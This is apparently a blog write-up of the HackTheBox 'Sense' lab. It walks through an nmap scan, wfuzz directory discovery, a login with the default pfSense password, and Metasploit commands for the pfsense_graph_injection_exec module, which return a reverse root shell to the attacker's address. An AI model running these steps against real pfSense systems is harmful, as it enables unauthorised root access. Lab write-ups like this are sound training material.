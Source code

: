 ```yaml
---
layout: post
title:  "HackTheBox :: Sense"
date:   2020-1-2 00:10:00 +0000
categories: hackthebox
---
```

Sense was another box that you can smash out in 10 minutes you might have spare. Not much to be learnt from this one as it was very straight forward.

# Nmap scan
```
PORT STATE SERVICE VERSION
80/tcp open http lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/
443/tcp open ssl/https?
|_ssl-date: TLS randomness does not represent time
```
Navigating to the webserver we get shown a pfsense login page and not much else.

# Wfuzz results
```
wfuzz -c -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt --hc 404,301 https://10.10.10.60/FUZZ.txt
001197: C=200 9 L 40 W 271 Ch "changelog"
112347: C=200 6 L 12 W 106 Ch "system-users"
```
Changelog indicates the current version is vulnerable to something. system-users indicates the username 'rohit' and 'company-default' exist. Trying the username rohit and pfsense default password of 'pfsense' lets us in.

# Exploitation
Searching for an exploit with this platform returns a metasploit module that fits our needs, filling in the details we know we can run the exploit.
```
msf exploit(unix/http/pfsense_graph_injection_exec) > set RHOST 10.10.10.60
RHOST => 10.10.10.60
msf exploit(unix/http/pfsense_graph_injection_exec) > set USERNAME rohit
USERNAME => rohit
msf exploit(unix/http/pfsense_graph_injection_exec) > set LHOST tun0
LHOST => 10.10.14.6
msf exploit(unix/http/pfsense_graph_injection_exec) > exploit
```
<br>
The above exploit yields a root level shell so theres no need to extend privileges.


